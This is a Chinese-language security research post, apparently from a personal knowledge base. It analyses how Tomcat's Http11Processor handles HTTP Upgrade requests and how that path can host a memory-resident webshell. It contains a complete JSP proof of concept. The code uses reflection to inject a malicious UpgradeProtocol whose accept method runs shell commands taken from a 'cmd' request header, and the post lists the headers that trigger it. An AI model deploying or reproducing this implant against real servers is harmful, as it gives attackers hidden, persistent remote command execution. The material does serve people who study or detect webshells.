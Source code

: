 # 0x01 Previous Review

上篇的Executor内存马是在EndPoint下的，实际上Processor中也能找到内存马的植入点

![image-20230204104009226](../.gitbook/assets/image-20230204104009226.png)

Processor负责处理字节流生成Tomcat Request 对象，将Tomcat Request对象传递给 Adapter。其实就是处理HTTP请求的，对应的类为`AbstractProcessorLight`

# 0x02 Analysis

`NioEndpoint#doRun`处理网络Socket连接，调用`AbstractProtocol$ConnectionHandler#process`

![image-20230204194027659](../.gitbook/assets/image-20230204194027659.png)

跟进看到，创建了一个`Http11Processor`（`AbstractProcessorLight`子类），并调用其process方法，跟进去看看

![image-20230204194544213](../.gitbook/assets/image-20230204194544213.png)

![image-20230204195124117](../.gitbook/assets/image-20230204195124117.png)

status为`OPEN_READ`，调用service方法

![image-20230204195506315](../.gitbook/assets/image-20230204195506315.png)

若请求的`Connection`头字段有Upgrade标志，且存在`Upgrade`头，首先通过`AbstractProtocol#getUpgradeProtocol`获取`UpgradeProtocol`对象，再调用其`accept`方法（利用点便在此）

![image-20230204195807803](../.gitbook/assets/image-20230204195807803.png)

拿到Upgrade头字段后，通过`httpUpgradeProtocols.get(upgradeName)`获取`UpgradeProtocol`

![image-20230204200625102](../.gitbook/assets/image-20230204200625102.png)

所以接下来的关注点就在`httpUpgradeProtocols`

全局搜索`httpUpgradeProtocols`，发现`AbstractHttp11Protocol#configureUpgradeProtocol`往其添加`UpgradeProtocol`

![image-20230204201141244](../.gitbook/assets/image-20230204201141244.png)

搜索发现`AbstractHttp11Protocol#init`中调用了`configureUpgradeProtocol`

![image-20230204201511121](../.gitbook/assets/image-20230204201511121.png)

说明`httpUpgradeProtocols`是在Tomcat启动时被实例化的。

在当前上下文找到`AbstractHttp11Protocol`（上下文环境中会是`Http11NioProtocol`），通过反射往`httpUpgradeProtocols`加入我们自定义的`UpgradeProtocol`就行，`UpgradeProtocol`的`accept`方法加入恶意代码。

# 0x03 POC

## 构造恶意UpgradeProtocol

在`Http11Processor`的`process`方法中会检测`Connection`和`Upgrade`的头部字段，根据`Upgrade`头部字段获取`UpgradeProtocol`，调用其`accept`方法，参数是`org.apache.coyote.Request`，刚好能通过反射获取到response对象。

```java
public boolean accept(org.apache.coyote.Request request) {
    System.out.println("MyUpgrade.accept");
    String p = request.getHeader("cmd");
    try {
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
        Field response = org.apache.coyote.Request.class.getDeclaredField("response");
        response.setAccessible(true);
        Response resp = (Response) response.get(request);
        byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
        resp.doWrite(ByteBuffer.wrap(result));
    } catch (Exception e){}
    return false;
}
```

反射修改`httpUpgradeProtocols`：

```jsp
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
Field conn = Request.class.getDeclaredField("connector");
conn.setAccessible(true);
Connector connector = (Connector) conn.get(req);
Field proHandler = Connector.class.getDeclaredField("protocolHandler");
proHandler.setAccessible(true);
AbstractHttp11Protocol handler = (AbstractHttp11Protocol) proHandler.get(connector);
HashMap<String, UpgradeProtocol> upgradeProtocols = null;
Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
upgradeProtocolsField.setAccessible(true);
upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);
upgradeProtocols.put("p4d0rn", new MyUpgrade());
upgradeProtocolsField.set(handler, upgradeProtocols);
```

访问时需带上下面头字段：

> Upgrade: p4d0rn
>
> Connection: Upgrade
>
> cmd: calc

完整POC：

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.AbstractHttp11Protocol" %>
<%@ page import="org.apache.coyote.UpgradeProtocol" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.coyote.Processor" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.Adapter" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%!
    public class MyUpgrade implements UpgradeProtocol {
        public String getHttpUpgradeName(boolean isSSLEnabled) {
            return "p4d0rn";
        }

        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        public String getAlpnName() {
            return null;
        }

        public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
            return null;
        }

        public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            System.out.println("MyUpgrade.accept");
            String p = request.getHeader("cmd");
            System.out.println(p);
            try {
                String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                org.apache.coyote.Response resp = (org.apache.coyote.Response) response.get(request);
                System.out.println("hhhh");
                InputStream in = new ProcessBuilder(cmd).start().getInputStream();
                BufferedReader stdInput = new BufferedReader(new InputStreamReader(in));
                String s = "";
                String tmp = "";
                while ((tmp = stdInput.readLine()) != null) {
                    s += tmp;
                }
                resp.setHeader("Result", s);
            } catch (Exception e){
                System.out.println(e);
            }
            return false;
        }

    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    Field conn = Request.class.getDeclaredField("connector");
    conn.setAccessible(true);
    Connector connector = (Connector) conn.get(req);
    Field proHandler = Connector.class.getDeclaredField("protocolHandler");
    proHandler.setAccessible(true);
    AbstractHttp11Protocol handler = (AbstractHttp11Protocol) proHandler.get(connector);
    HashMap<String, UpgradeProtocol> upgradeProtocols = null;
    Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
    upgradeProtocolsField.setAccessible(true);
    upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);
    upgradeProtocols.put("p4d0rn", new MyUpgrade());
    upgradeProtocolsField.set(handler, upgradeProtocols);
%>
```

![image-20230204213657337](../.gitbook/assets/image-20230204213657337.png)

参考：

[一种新的Tomcat内存马 - Upgrade内存马 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1709/)

[初探Upgrade内存马(内存马系列篇六) - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/345119.html)